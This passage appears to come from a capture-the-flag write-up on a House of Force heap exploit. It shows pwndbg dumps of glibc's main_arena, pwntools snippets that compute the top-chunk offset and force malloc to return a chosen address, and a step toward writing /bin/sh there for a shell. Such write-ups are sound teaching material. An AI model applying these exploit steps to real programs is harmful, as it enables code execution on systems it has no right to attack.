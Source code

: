 ```r
pwndbg> 
pwndbg> x/20xg &main_arena 
0x7f113dafbb20 <main_arena>:  0x0000000100000000  0x0000000000000000
0x7f113dafbb30 <main_arena+16>: 0x0000000000000000  0x0000000000000000
0x7f113dafbb40 <main_arena+32>: 0x0000000000000000  0x0000000000000000
0x7f113dafbb50 <main_arena+48>: 0x0000000000000000  0x0000000000000000
0x7f113dafbb60 <main_arena+64>: 0x0000000000000000  0x0000000000000000
0x7f113dafbb70 <main_arena+80>: 0x0000000000000000  0x000055af3f015060
0x7f113dafbb80 <main_arena+96>: 0x0000000000000000  0x00007f113dafbb78
0x7f113dafbb90 <main_arena+112>:  0x00007f113dafbb78  0x00007f113dafbb88
0x7f113dafbba0 <main_arena+128>:  0x00007f113dafbb88  0x00007f113dafbb98
0x7f113dafbbb0 <main_arena+144>:  0x00007f113dafbb98  0x00007f113dafbba8
pwndbg> x/20xg &main_arena Quit
pwndbg> p/x 0x55af3f015130 - 0x55af3f015080
$1 = 0xb0
pwndbg> p/x 0x55af3f015130 - 0x55af3f015060
$2 = 0xd0
pwndbg> c
```



```py
# Calculating the TOP_CHUNK address which will be subtracted from the fptr and then can
# be used with House Of Force
TOP_CHUNK = heap
TOP_CHUNK -= 0xd0   #Offset
TOP_CHUNK += 8 * 4  # This will exact return the 32 bytes, because the malloc has to get the address 32 bytes before the target so that we can get the target from the exact address
log.info("TOP CHUNK: 0x%x" %(TOP_CHUNK))

```


### Forcing `malloc` to get the target


Now since we overwritten the `top_chunk` now we can ask the `malloc` to return the address we want by giving the calcuated address, we calculate the address by:-

```py
size_to_malloc = target_addr - top_chunk_address
```

This will give us a negative integer and when we give it to the `malloc` it'll give us that chunk :D

```py
build_deathstar(fptr - TOP_CHUNK) # Subtracting and sending the offset, hence forcing the heap
```

### Saving `/bin/sh` to the target address

Now, we can save the `/bin/sh` to the target address since we forced malloc to return that specific address.
